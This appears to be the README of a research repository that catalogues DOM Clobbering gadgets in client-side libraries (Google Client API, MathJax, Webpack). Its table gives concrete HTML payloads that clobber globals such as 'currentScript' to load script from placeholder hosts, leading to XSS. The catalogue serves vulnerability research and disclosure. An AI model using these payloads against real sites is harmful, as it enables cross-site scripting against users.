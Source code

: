 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.2 | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 5 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk |
